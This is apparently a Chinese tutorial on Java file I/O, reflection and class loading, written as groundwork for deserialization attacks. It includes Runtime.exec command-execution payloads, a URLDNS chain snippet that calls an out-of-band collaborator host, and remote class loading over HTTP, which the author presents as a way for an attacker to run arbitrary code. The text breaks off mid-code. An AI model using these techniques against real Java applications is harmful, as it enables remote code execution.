

# java文件操作

IO是指 Input/Output，即输入和输出。以内存为中心：

从 Java 代码来看，输入实际上就是从外部，例如，硬盘上的某个文件，把内容读到内存，并且以 Java 提供的某种数据类型表示，例如，`byte[]`，`String`，这样，后续代码才能处理这些数据。

因为内存有“易失性”的特点，所以必须把处理后的数据以某种方式输出，例如，写入到文件。Output 实际上就是把 Java 表示的数据格式，例如，`byte[]`，`String`等输出到某个地方。

## 创建文件的三种方式

### 1、根据路径创建一个File对象

方法`new File(String pathname)`

```
package src.IOStream

import java.io.File;
import java.io.IOException;

// 根据路径创建一个 File 对象  
public class newFile {  
    public static void main(String[] args) {  
        createFile();  
 }  
    public static void createFile(){  
        File file = new File("Serialable/src/IOStream/CreateForFile/new1.txt");  
 try{  
            file.createNewFile();  
 System.out.println("Create Successfully");  
 } catch (IOException e){  
            e.printStackTrace();  
 }  
    }  
  
}
```

---

### 2. 根据父目录 File 对象，在子路径创建一个文件

方法`new File(File parent,String child)`

```
package src.IOStream;  
  
import java.io.File;  
import java.io.IOException;  
  
// 根据父目录File对象，在子路径创建一个文件  
public class newFile02 {  
    public static void main(String[] args) {  
        createFile();  
 }  
    public static void createFile(){  
        File parentFile = new File("Serialable/src/IOStream/CreateForFile");  
 File file = new File(parentFile, "new2.txt");  
 try{  
            file.createNewFile();  
 System.out.println("Create Successfully");  
 } catch (IOException e){  
            e.printStackTrace();  
 }  
    }  
}
```

---

### 3. 根据父目录路径，在子路径下生成文件

方法 `new File(String parent, String child)`

```
package src.IOStream;  
  
import java.io.File;  
import java.io.IOException;  
  
// 根据父目录路径，在子路径下生成文件  
public class newFile03 {  
    public static void main(String[] args) {  
        createFile();  
 }  
    public static void createFile(){  
        String parentPath = "Serialable/src/IOStream/CreateForFile";  
 		String fileName = "new3.txt";  
 		File file = new File(parentPath, fileName);  
 		try{  
            file.createNewFile();  
 			System.out.println("Create Successfully");  
 		} catch (IOException e){  
         	e.printStackTrace();  
 		}  
   	}  
}
```

---

## 获取文件信息

通过 `file` 类的方法名进行一些基本信息的获取

```
package src.IOStream;  
  
import java.io.File;  
  
public class GetFileInfo {  
    public static void main(String[] args) {  
        getFileContents();  
 }  
  
    public static void getFileContents(){  
        File file = new File("Serialable/src/IOStream/CreateForFile/new1.txt");  
 System.out.println("文件名称为：" + file.getName());  
 System.out.println("文件的绝对路径为：" + file.getAbsolutePath());  
 System.out.println("文件的父级目录为：" + file.getParent());  
 System.out.println("文件的大小(字节)为：" + file.length());  
 System.out.println("这是不是一个文件：" + file.isFile());  
 System.out.println("这是不是一个目录：" + file.isDirectory());  
 }  
}
```

---

## 目录与文件操作

### 1、文件删除

使用`file.delete(文件)`

```
package src.IOStream;  
  
import java.io.File;  
import java.lang.reflect.Field;  
  
// 文件删除  
public class FileDelete {  
    public static void main(String[] args) {  
        deleteFile();  
 }  
    public static void deleteFile(){  
        File file = new File("Serialable/src/IOStream/CreateForFile/new1.txt");  
 System.out.println(file.delete() ? "Delete Successfully":"Delete failed");  
 }  
}
```

---

### 2、目录删除

方法 `file.delete(目录)`，注意只有空的目录才可以删除，不然会显示删除失败。

```
package src.IOStream;  
  
import java.io.File;  
  
//删除目录  
public class DirectoryDelete {  
    public static void main(String[] args) {  
        deleteDirectory();  
 }  
    public static void deleteDirectory(){  
        File file = new File("Serialable/src/IOStream/CreateForDelete");  
 System.out.println(file.delete()? "Delete Successfully":"Delete failed");  
 }  
}
```

---

### 3、创建单级目录

方法`file.mkdir()`

只能创建单级目录，如果父目录不存在创建会失败

```
package src.IOStream;  
  
import java.io.File;  
  
// 创建单级目录  
public class CreateSingleDirectory {  
    public static void main(String[] args) {  
        createSingleDir();  
 }  
    public static void createSingleDir(){  
        File file = new File("Serialable/src/IOStream/CreateForDirectory");  
 System.out.println(file.mkdir() ? "Create Successfully":"Create failed");  
 }  
}
```

---

### 4、创建多级目录

方法 `file.mkdirs()`

```
package src.IOStream;  
  
import java.io.File;  
  
// 创建多级目录  
public class CreateMultiDirectory {  
    public static void main(String[] args) {  
        createMultiDir();  
 }  
  
    public static void createMultiDir(){  
        File file = new File("Serialable/src/IOStream/CreateMultiDirectory/test");  
 System.out.println(file.mkdirs() ? "Create Successfully":"Create failed");  
  
 }  
}
```

---

# java-IO流

## IO流分类

按照操作数据单位不同分为：**字节流**和**字符流**

- 字节流（8bit，适用于二进制文件）
- 字符流（按字符，因编码不同而异，适用于文本文件）

按照数据流流向不同分为：**输入流**和**输出流**

按照流的角色不同分为：**节点流**，**处理流/包装流**

| 抽象基类 | 字节流       | 字符流 |
| -------- | ------------ | ------ |
| 输入流   | InputStream  | Reader |
| 输出流   | OutputStream | Writer |

- 到这里就非常重要了，因为它与我们后续的命令执行直接相关。这些 IO 流在我们命令执行的 Payload 当中充当着缓冲的作用。

## 关于文件流的一些操作

### 1、示例-Runtime 命令执行操作的 **Payload**

```
package src.CommandExec;  
  
import java.io.ByteArrayOutputStream;  
import java.io.InputStream;  
  
// 使用 Runtime 类进行命令执行  
public class RuntimeExec {  
    public static void main(String[] args) throws Exception {  
        InputStream inputStream = Runtime.getRuntime().exec("whoami").getInputStream();  
 byte[] cache = new byte[1024];  
 ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();  
 int readLen = 0;  
 while ((readLen = inputStream.read(cache))!=-1){  
            byteArrayOutputStream.write(cache, 0, readLen);  
 }  
        System.out.println(byteArrayOutputStream);  
 }  
}
```

其中，`byte[] cache = new byte[1024]` 用来缓存数据

---

### 2、FileInputStream

#### read()方法

```
read() 
	public int read() throws IOException 
	从此输入流中读取一个数据字节。
	
	如果没有输入可用，则此方法将阻塞。 
	
	指定者： 类 InputStream 中的 read 
	
	返回： 下一个数据字节；如果已到达文件末尾，则返回 -1。 
	
	抛出： IOException - 如果发生 I/O 错误。
```

可以用 `FileInputStream.read()` 来读取文件内容

```
package src.IOStream;  
  
import java.io.FileInputStream;  
import java.io.IOException;  
  
// 使用 FileInputStream.read 读取文件  
public class FileInputRead {  
    public static void main(String[] args) {  
        readFile();  
 }  
    public static void readFile(){  
        String filePath = "Serialable/src/IOStream/CreateForFile/new1.txt";  
 FileInputStream fileInputStream = null;  
 int readData = 0;  
 try{  
            fileInputStream = new FileInputStream(filePath);  
 while((readData = fileInputStream.read())!=-1){  
                System.out.print((char)readData);  
 }  
        } catch (IOException e){  
            e.printStackTrace();  
 } finally {  
            try{  
                fileInputStream.close();  
 } catch (IOException e){  
                e.printStackTrace();  
 }  
        }  
    }  
}
```

成功读取到文件内容

---

#### read(byte[] d) 方法

允许在方法中添加一个字节数组。

当我们设置缓冲区的值为 8 时，若文件中的字符长度超过了 8，则会换行输出。

**read(byte[] d) 方法**

```
package src.IOStream;  
  
import java.io.FileInputStream;  
import java.io.IOException;  
  
// read(byte[] d) 方法，允许在方法中添加一个字节数组  
public class FileInputRead02 {  
    public static void main(String[] args) {  
        readFile();  
 }  
    public static void readFile(){  
        String filePath = "Serialable/src/IOStream/CreateForFile/new1.txt";  
 FileInputStream fileInputStream = null;  
 byte[] cache = new byte[8]; // 设置缓冲区，缓冲区大小为 8 字节  
 int readLen = 0;  
 try {  
            fileInputStream = new FileInputStream(filePath);  
 while((readLen = fileInputStream.read(cache)) != -1){  
                System.out.println(new String(cache, 0, readLen));  
 }  
        } catch (IOException e){  
                e.printStackTrace();  
 } finally {  
            try {  
                fileInputStream.close();  
 } catch (IOException e){  
                e.printStackTrace();  
 }  
        }  
    }  
}
```

这里的 while 会运行三次，会读取文件当中所有的字符。

---

### 3. FileOutputStream

往文件里面写数据
简单的 write(int b) 

**byte 数组作为缓冲区，可以一次读取多个字节，而不是一个字节一个字节地读取，大大提高了文件拷贝的效率。**

#### write(byte[] b) 方法

```
write(byte[] b)
public void write(byte[] b)
           throws IOException
将 b.length 个字节从指定 byte 数组写入此文件输出流中。
覆盖：
类 OutputStream 中的 write
参数：
b - 数据。
抛出：
IOException - 如果发生 I/O 错误。
```

尝试向文件当中写入数据

```
package src.IOStream;  
  
import java.io.FileNotFoundException;  
import java.io.FileOutputStream;  
import java.io.IOException;  
  
// write(byte[] b) 方法  
public class FileOutputWrite01 {  
    public static void main(String[] args) {  
        writeFile();  
 }  
  
    public static void writeFile() {  
        String filePath = "Serialable/src/IOStream/CreateForFile/new1.txt";  
 FileOutputStream fileOutputStream = null;  
 try { // 注意fileOutputStream的作用域，因为fileOutputStream需要在finally分支中被异常捕获  
 // 所以这里的 try 先不闭合  
 fileOutputStream = new FileOutputStream(filePath);  
 String content = "gulugulu";  
 try {  
                //write(byte[] b) 将 b.length 个字节从指定 byte 数组写入此文件输出流中  
 //String类型的字符串可以使用getBytes()方法将字符串转换为byte数组  
 fileOutputStream.write(content.getBytes());  
 } catch (IOException e) {  
                e.printStackTrace();  
 }  
        }catch (FileNotFoundException e){  
            e.printStackTrace();  
 }  
        finally {  
            try {  
                fileOutputStream.close();  
 } catch (IOException e){  
                e.printStackTrace();  
 }  
        }  
    }  
}
```

---

#### write(byte[] b, int off, int len) 方法

将指定 byte 数组中从偏移量 off 开始的 len 个字节写入此文件输出流。

这里的长度一定要与输入的字符相等。

```
package src.IOStream;  
  
import java.io.FileNotFoundException;  
import java.io.FileOutputStream;  
import java.io.IOException;  
import java.nio.charset.StandardCharsets;  
  
// write(byte[] b) 方法  
public class FileOutputWrite02 {  
    public static void main(String[] args) {  
        writeFile();  
 }  
  
    public static void writeFile() {  
        String filePath = "Serialable/src/IOStream/CreateForFile/new1.txt";  
 FileOutputStream fileOutputStream = null;  
 try { // 注意fileOutputStream的作用域，因为fileOutputStream需要在finally分支中被异常捕获  
 // 所以这里的 try 先不闭合  
 fileOutputStream = new FileOutputStream(filePath);  
 String content = "drinkdrink";  
 try {  
                //write(byte[] b) 将 b.length 个字节从指定 byte 数组写入此文件输出流中  
 //String类型的字符串可以使用getBytes()方法将字符串转换为byte数组  
 fileOutputStream.write(content.getBytes(StandardCharsets.UTF_8), 0, 10);  
 } catch (IOException e) {  
                e.printStackTrace();  
 }  
        }catch (FileNotFoundException e){  
            e.printStackTrace();  
 }  
        finally {  
            try {  
                fileOutputStream.close();  
 } catch (IOException e){  
                e.printStackTrace();  
 }  
        }  
    }  
}
```

---

#### 追加写入

如果想要写入的数据不被覆盖，可以设置 `FileOutputStream` 的构造方法 `append` 参数设置为 `true`

```
fileOutputStream = new FileOutputStream(filePath);
// 设置追加写入
fileOutputStream = new FileOutputStream(filePath,true);
```

---

###  4、文件拷贝 ———— input output 结合

利用前文讲的 `fileInputStream` 和 `fileOutputStream` 进行文件拷贝。

原理上来说，先将文件的内容(注意，其实图片当中也是内容，这个内容不光是文字！) 读取出来，再写入新的文件当中。

```
package src.IOStream;  
  
import java.io.FileInputStream;  
import java.io.FileOutputStream;  
import java.io.IOException;  
  
// 文件拷贝操作  
public class FileCopy {  
    public static void main(String[] args) {  
            copyFile();  
 }  
    public static void copyFile(){  
        String srcFilename = "Serialable/src/IOStream/CreateForFile/new1.txt";  
 String desFilename = "Serialable/src/IOStream/CreateForFile/new2.txt";  
 FileInputStream fileInputStream = null;  
 FileOutputStream fileOutputStream = null;  
 try {  
            fileInputStream = new FileInputStream(srcFilename);  
 fileOutputStream = new FileOutputStream(desFilename);  
 byte[] cache = new byte[1024];  
 int readLen = 0;  
 while((readLen = fileInputStream.read(cache)) != -1){  
                fileOutputStream.write(cache, 0, readLen);  
 }  
    } catch (IOException e){  
            e.printStackTrace();  
 } finally {  
            try {  
                fileInputStream.close();  
 fileOutputStream.close();  
 } catch (IOException e){  
                e.printStackTrace();  
 }  
        }  
        }  
}
```

---

### 5. FileReader

```
public class FileReader extends InputStreamReader
用来读取字符文件的便捷类。此类的构造方法假定默认字符编码和默认字节缓冲区大小都是适当的。要自己指定这些值，可以先在 FileInputStream 上构造一个 InputStreamReader。
FileReader 用于读取字符流。要读取原始字节流，请考虑使用 FileInputStream。
```

#### 核心区别

| 特性         | FileReader               | FileInputStream                    |
| ------------ | ------------------------ | ---------------------------------- |
| **处理单位** | 字符（2字节）            | 字节（1字节）                      |
| **用途**     | 读取文本文件             | 读取任意文件（文本、图片、视频等） |
| **编码处理** | 自动处理字符编码         | 不处理编码，返回原始字节           |
| **继承关系** | Reader 体系（字符流）    | InputStream 体系（字节流）         |
| **返回类型** | int（字符的Unicode码点） | int（字节值0-255）                 |

下方测试代码将会将 `Serialable/src/IOStream/CreateForFile/new1.txt` 中的 new1.tx 文件打印输出至控制台：

```
package src.IOStream;  
  
import java.io.FileReader;  
import java.io.IOException;  
  
// 读取文件的字符流  
public class FileReaderPrint {  
    public static void main(String[] args) {  
        readFile();  
 }  
    public static void readFile(){  
        String filePath = "Serialable/src/IOStream/CreateForFile/new1.txt";  
 FileReader fileReader = null;  
 try {  
            fileReader = new FileReader(filePath);  
 int readLen = 0;  
 char[] cache = new char[8];  
 while ((readLen = fileReader.read(cache))!=-1){  
                System.out.println(new String(cache, 0, readLen));  
 }  
        } catch (IOException e){  
            e.printStackTrace();  
 } finally {  
            try {  
                fileReader.close();  
 } catch (IOException e){  
                e.printStackTrace();  
 }  
        }  
    }  
}
```

`FileReader` 将会一个一个**字符**读取，因此可以不乱码输出中文

---

# 反射

## 反射理解

- 反射的作用：让 Java 具有动态性

Java 的**反射机制**是指在运行状态中，对于任意一个类都能够知道这个类所有的属性和方法； 并且对于任意一个对象，都能够调用它的任意一个方法；这种动态获取信息以及动态调用对象方法的功能成为 Java 语言的反射机制。

Java 本身是一种静态语言，为什么这么说，看这一段代码就知道了。       

```
Student student = new Student();
```

那反过来，什么是动态语言呢？PHP 本身就拥有很多动态特性，我们来看这一段代码。在这一段代码里面，我们输入 `eval`，php 就执行 `eval` 命令；输入 `echo` 就执行 `echo` 命令；这就是语言的动态特性。  

```
eval(<?php eval()?>)
```

---

### 1、正射与反射

#### 正射

我们在编写代码时，当需要使用到某一个类的时候，都会先了解这个类是做什么的。然后实例化这个类，接着用实例化好的对象进行操作，这就是正射。      

```
Student student = new Student();
student.doHomework("数学");
```

---

#### 反射

反射就是，一开始并不知道我们要初始化的类对象是什么，自然也无法使用 new 关键字来创建对象了。我们以这一段经典的反射代码为例说明。

```
public static void main(String[] args) throws Exception{  
    Person person = new Person();  
 	Class c = person.getClass();
}
```

我们注意到在代码块中出现了Class；

**理解反射的第一步就必须先搞清楚 `Class` 是什么。**

---

### 2. Java Class 对象理解

我们程序在运行的时候会编译生成一个 `.class` 文件，而这个 `.class` 文件中的内容就是相对应的类的所有信息，比如这段程序当中：

```
public static void main(String[] args) throws Exception{
	Person person = new Person();
	Class c = person.getClass();
}
```

其实 **`person.class` 就是 `Class`**，Class 也就是描述类的类。

**Class 类的对象作用**是运行时提供或获得某个对象的类型信息

```
所以反射其实就是操作 Class
```

---

## Java 反射组成相关的类

反射机制相关操作一般位于java.lang.reflect包中。

而java反射机制组成需要重点注意以下的类：

```
java.lang.Class：类对象;

java.lang.reflect.Constructor：类的构造器对象;

java.lang.reflect.Field：类的属性对象;

java.lang.reflect.Method：类的方法对象;
```

---

## 反射的使用方法

主要用到的方法有这四个

获取类的方法：forName

实例化类对象的方法：newInstance

获取函数的方法：getMethod

执行函数的方法：invoke

---

### 1、实例化对象

对于普通用户我们可以采用以下方法创建实例：

```
person test = new Person();
```

而我们在创建Class类的实例度下井却不能使用上述方法

```
Class test = new Class();
```

同时我们可以跟进 Class 类的源码进行查看，发现其构造器是私有的，所以只有 JVM 能够创建 Class 对象。

因为 Class 类是 `private` 私有属性，我们也无法通过创建对象的方式来获取 class 对象

所以我们可以通过以下几种方法来获取class对象

---

#### 方法一、实例化对象的getClass()方法

如果上下⽂中存在某个类的实例 `obj`，那么我们可以通过 `obj.getClass` 来获取它的类。

```
TestReflection testReflection = new TestReflection();
Class class3 = testReflection.getClass();
```

---

#### 方法二、 使用类的 .class 方法

如果你已经加载了某个类，只是想获取到它的 `java.lang.Class` 对象，那么就直接拿它的 `class` 属性即可。这个⽅法其实不属于反射。

```
Class class2 = TestReflection.class;
```

---

#### 方法三、Class.forName(String className)：动态加载类

如果你知道某个类的名字，想获取到这个类，就可以使⽤ `forName` 来获取，后续要利用的话是需要实例化的。

```
Class class1 = Class.forname("reflection.TestRefletcion");
```

写个简单的示例代码，分别利用这三种方法获取当前类Class对象的当前类名

```
package src;  
  
public class ReflectionTest01 {  
    public static void main(String[] args) throws Exception{  
        // 类的 .class 属性  
 Class c1 = Person.class;  
 System.out.println(c1.getName());  
  
 // 实例化对象的 getClass() 方法  
 Person person = new Person();  
 Class c2 = person.getClass();  
 System.out.println(c2.getName());  
  
 // Class.forName(String className): 动态加载类  
 Class c3 = Class.forName("src.Person");  
 System.out.println(c3.getName());  
  
 }  
}
```

---

### 2、获取成员变量Field

获取成员变量Field位于 `java.lang.reflect.Field` 包中

```
Field[] getFields() ：获取所有 public 修饰的成员变量

Field[] getDeclaredFields() 获取所有的成员变量，不考虑修饰符

Field getField(String name) 获取指定名称的 public 修饰的成员变量

Field getDeclaredField(String name) 获取指定的成员变量
```

---

### 3、 获取成员方法 Method

要注意以下，第一个参数是传参，第二个参数是确定重载的是哪个函数。

```
Method getMethod(String name, 类<?>... parameterTypes) //返回该类所声明的public方法

Method getDeclaredMethod(String name, 类<?>... parameterTypes) //返回该类所声明的所有方法

//第一个参数获取该方法的名字，第二个参数获取标识该方法的参数类型

Method[] getMethods() //获取所有的public方法，包括类自身声明的public方法，父类中的public方法、实现的接口方法

Method[] getDeclaredMethods() // 获取该类中的所有方法
```

示例：

**Person.java** 

```
public void study(String s) {  
    System.out.println("学习中..." + s);  
}  
private String sleep(int age) {  
    System.out.println("睡眠中..." + age);  
 return "sleep";  
}
```

**ReflectionTest02.java**

```
package src;  
  
import com.sun.xml.internal.ws.encoding.MtomCodec;  
  
import java.lang.reflect.Method;  
  
public class ReflectionTest02 {  
    public static void main(String[] args) throws Exception{  
        Class c1 = Class.forName("src.Person");// 创建 Class 对象  
 Method[] methods1 = c1.getDeclaredMethods();// 获取所有该类中的所有方法  
 Method[] methods2 = c1.getMethods();// 获取所有的 public 方法，包括类自身声明的 public 方法，父类中的  、实现的接口方法  
  
 for (Method m:methods1){  
            System.out.println(m);  
 }  
        System.out.println("-------分割线---------");  
  
 for (Method m:methods2) {  
            System.out.println(m);  
 }  
  
        System.out.println("-------分割线---------");  
  
 Method methods3 = c1.getMethod("study", String.class);// 获取 Public 的 study 方法  
 System.out.println(methods3);  
 System.out.println("-------分割线---------");  
  
 Method methods4 = c1.getDeclaredMethod("sleep", int.class); // 获取 Private 的 sleep 方法  
 System.out.println(methods4);  
 }  
  
}
```

---

### 4. 获取构造函数 Constructor

```
Constructor<?>[] getConstructors() ：只返回public构造函数

Constructor<?>[] getDeclaredConstructors() ：返回所有构造函数

Constructor<> getConstructor(类<?>... parameterTypes) : 匹配和参数配型相符的public构造函数

Constructor<> getDeclaredConstructor(类<?>... parameterTypes) ： 匹配和参数配型相符的构造函数
```

在 forName 之后获取构造函数

**PersonConstructor.java**

```
package src;  
  
import java.io.Serializable;  
  
public class PersonConstructor {  
  
    private String name;  
 private int age;  
  
 // 无参构造  
 public PersonConstructor(){  
  
    }  
    // 构造函数  
 public PersonConstructor(String name, int age){  
        this.name = name;  
 this.age = age;  
 }  
    // 私有构造函数  
 private PersonConstructor(String name){  
        this.name = name;  
 }  
  
    @Override  
 public String toString(){  
        return "Person{" +  
                "name='" + name + '\'' +  
                ", age=" + age +  
                '}';  
 }  
  
}
```

**ReflectionTest03.java**

```
package src;  
  
import java.lang.reflect.Constructor;  
  
public class ReflectionTest03 {  
    public static void main(String[] args) throws Exception{  
        Class c1 = Class.forName("src.PersonConstructor");  
 Constructor[] constructors1 = c1.getDeclaredConstructors();  
 Constructor[] constructors2 = c1.getConstructors();  
 for (Constructor c : constructors1){  
            System.out.println(c);  
 }  
        System.out.println("-------分割线---------");  
 for (Constructor c : constructors2){  
            System.out.println(c);  
 }  
        System.out.println("-------分割线---------");  
 Constructor constructors3 = c1.getConstructor(String.class, int.class);  
 System.out.println(constructors3);  
 System.out.println("-------分割线---------");  
 Constructor constructors4 = c1.getDeclaredConstructor(String.class);  
 }  
}
```

---

## 反射的进阶使用

### 1. 反射创建对象

反射创建对象，也叫做反射之后实例化对象，这里用到的是我们之前讲过的 `newInstance()` 方法

```
Class c = Class.forName("类的名称"); // 创建Class对象
Object m1 =  c.newInstance(); // 创建类对象
```

这里也顺便说下 invoke 方法，invoke 方法位于 java.lang.reflect.Method 类中，用于执行某个的对象的目标方法。
一般会和 getMethod 方法配合进行调用。

用法

```
public Object invoke(Object obj, Object... args)
```

第一个参数为类的实例，第二个参数为相应函数中的参数

obj：从中调用底层方法的对象，必须是实例化对象

args： 用于方法的调用，是一个 object 的数组，参数有可能是多个

但需要注意的是，invoke 方法第一个参数并不是固定的：

**如果调用这个方法是普通方法，第一个参数就是类对象；**

**如果调用这个方法是静态方法，第一个参数就是类；**

将我们的知识进行整合归纳下，我们可以写个完整的小例子。

```
package src;  
  
import java.lang.reflect.Method;  
  
public class ReflectionTest04 {  
    public static void main(String[] args) throws Exception{  
        Class c1 = Class.forName("src.Person");  
 Object m = c1.newInstance();  
 Method method = c1.getMethod("reflect");  
 method.invoke(m);  
 }  
}
```

---

## URLDNS 链讲解

```
// 这里不要发起请求  
URL url = new URL("http://bl00nzimnnujskz418kboqxt9kfb30.oastify.com");  
Class c = url.getClass();  
Field hashcodefile = c.getDeclaredField("hashCode");  
hashcodefile.setAccessible(true);  
hashcodefile.set(url,1234);  
hashmap.put(url,1);  
// 这里把 hashCode 改为 -1； 通过反射的技术改变已有对象的属性  
hashcodefile.set(url,-1);  
serialize(hashmap);
```

getClass() 实例化对象，接着就是获取类的方法，获取类的属性并修改。

---

## 利用反射弹计算器

用我们的 `forName` 与 `newInstance()` 实例化对象后，再进行获取方法，执行。

```
package src.ReflectDemo;  
  
import java.lang.reflect.Method;  
  
public class FinalReflectionCalc {  
    public static void main(String[] args) throws Exception{  
        Class c1 = Class.forName("java.lang.Runtime");  
 Object o1 = c1.newInstance();  
 Method m1 = c1.getDeclaredMethod("exec",String.class);  
 }  
}
```

这里报错了，原因是 `java.lang.Runtime` 是私有的。

我们换一种方式弹计算器，不过加上 `setAccessible(true)` 也可以

```
package src.ReflectDemo;  
  
import java.lang.reflect.Method;  
  
public class FinalReflectionCalc {  
    public static void main(String[] args) throws Exception{  
    
       /* 失败，因为 java.lang.Runtime 是私有的  
 Class c1 = Class.forName("java.lang.Runtime"); Object o1 = c1.newInstance(); Method m1 = c1.getDeclaredMethod("exec",String.class); m1.invoke(o1,"C:\\WINDOWS\\System32\\calc.exe"); */ 
 
 
 Class c1 = Class.forName("java.lang.Runtime");  
 Method method = c1.getMethod("exec", String.class);  
 Method RuntimeMethod = c1.getMethod("getRuntime");  
 Object o1 = RuntimeMethod.invoke(c1);  
 method.invoke(o1, "calc");  
 }  
}
```

上面的代码太长了

简便payload：

```
Class c1 = Class.forName("java.lang.Runtime");  
c1.getMethod("exec", String.class).invoke(c1.getMethod("getRuntime").invoke(c1), "calc");
```

---

# 类的动态加载

## 什么是java的字节码

严格来说，Java字节码（ByteCode）其实仅仅指的是Java虚拟机执行使用的一类指令，通常被存储

在.class文件中。

众所周知，不同平台、不同CPU的计算机指令有差异，但因为Java是一门跨平台的编译型语言，所以这

些差异对于上层开发者来说是透明的，上层开发者只需要将自己的代码编译一次，即可运行在不同平台

的JVM虚拟机中。

甚至，开发者可以用类似Scala、Kotlin这样的语言编写代码，只要你的编译器能够将代码编译成.class文

件，都可以在JVM虚拟机中运行：



但是，本文中所说的“字节码”，可以理解的更广义一些——**所有能够恢复成一个类并在****JVM****虚拟机里加**

**载的字节序列，都在我们的探讨范围内**。

---

## **利用**URLClassLoader加载远程class文件-任意类加载

Java的ClassLoader来用来加载字节码文件最基础的方法

ClassLoader： URLClassLoader 。URLClassLoader 实际上是我们平时默认使用的 AppClassLoader 的父类，所以，我们解释

URLClassLoader 的工作过程实际上就是在解释默认的Java类加载器的工作流程。

**正常情况下，Java会根据配置项 sun.boot.class.path 和 java.class.path 中列举到的基础路径（这**

**些路径是经过处理后的 java.net.URL 类）来寻找.class文件来加载，而这个基础路径有分为三种情况：**

1. **URL未以斜杠 / 结尾，则认为是一个JAR文件，使用 JarLoader 来寻找类，即为在Jar包中寻找.class文件**
2. **URL以斜杠 / 结尾，且协议名是 file ，则使用 FileLoader 来寻找类，即为在本地文件系统中寻找.class文件**
3. **URL以斜杠 / 结尾，且协议名不是 file ，则使用最基础的 Loader 来寻找类**

```
URL[] urls = {new URL("http://localhost:9999/")};
URL[] urls = {new URL("file:///D:\\tmp\\classes\\")};
URL[] urls = {new URL("jar:file:///D:\\tmp\\classes\\Hello.jar!/")};
URL[] urls = {new URL("jar:http://localhost:9999/Hello.jar!/")};
```

**怎么打包：**

```
# 编译 Hello.java
javac Hello.java

# 基本打包
jar cvf Hello.jar Hello.class

# 或者打包整个目录
jar cvf Hello.jar *.class
```

我们可以使用HTTP协议来测试一下，看Java是否能从远程HTTP服务器上加载.class文件：

Hello.java

```
public class Hello {

    static{
        System.out.println("Hello World");
    }
}

```

这里用的是静态代码块，在类加载时会执行，然后编译成.class

classloadertest.java

```
import java.net.URL;
import java.net.URLClassLoader;


public class classloadertest
{
    public static void main( String[] args ) throws Exception
    {
        URL[] urls = {new URL("http://localhost:9999/")};
        URLClassLoader loader = URLClassLoader.newInstance(urls);
        Class c = loader.loadClass("Hello");
        c.newInstance();
    }
}
```

起一个web服务

```
python -m http.server 9999
```

将Hello.class，放在 `http://localhost:8000/Hello.class `

运行classloadertest.java，可以发现成功执行了文件里的字节码，执输出了helloworld

所以，作为攻击者，如果我们能够控制目标Java ClassLoader的基础路径为一个http服务器，则可以利

用远程加载的方式执行任意代码了。

---

## **利用**ClassLoader#defineClass**直接加载字节码**

上一节中我们认识到了如何利用URLClassLoader加载远程class文件，也就是字节码。其实，不管是加

载远程class文件，还是本地的class或jar文件，Java都经历的是下面这三个方法调用：

```
classLoader#loadClass --> ClassLoader#findClass --> ClassLoader#defineClass
```

其中：

loadClass 的作用是从已加载的类缓存、父加载器等位置寻找类（这里实际上是双亲委派机制），在前面没有找到的情况下，执行 findClass

findClass 的作用是根据基础URL指定的方式来加载类的字节码，就像上一节中说到的，可能会在本地文件系统、jar包或远程http服务器上读取字节码，然后交给 defineClass

defineClass 的作用是处理前面传入的字节码，将其处理成真正的Java类

所以可见，真正核心的部分其实是 defineClass ，他决定了如何将一段字节流转变成一个Java类，Java默认的 ClassLoader#defineClass 是一个native方法，逻辑在JVM的C语言代码中。

先读取 .class 文件并转 Base64

```
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Base64;

public class ClassToBase64 {
    public static void main(String[] args) throws Exception {
        byte[] bytes = Files.readAllBytes(Paths.get("Hello.class"));
        String base64 = Base64.getEncoder().encodeToString(bytes);
        System.out.println(base64);
    }
}
```

然后我们可以编写一个简单的代码，来演示如何让系统的 defineClass 来直接加载字节码：

```
import java.lang.reflect.Method;
import java.util.Base64;
import java.nio.file.Files;
import java.nio.file.Paths;

public class test {
    public static void main(String[] args) throws Exception {

    /*
    这里，因为系统的 ClassLoader#defineClass 是一个保护属性，所以我们无法直接在外部访问，不得不使用反射的形式来调用。

在实际场景中，因为defineClass方法作用域是不开放的，所以攻击者很少能直接利用到它，但它却是我们常用的一个攻击链 TemplatesImpl 的基石。*/
        // 1. 获取 defineClass 方法
        Method defineClass = ClassLoader.class.getDeclaredMethod(
                "defineClass", String.class, byte[].class, int.class, int.class);
        defineClass.setAccessible(true);

        // 2. Base64 解码
        byte[] code = Base64.getDecoder().decode(
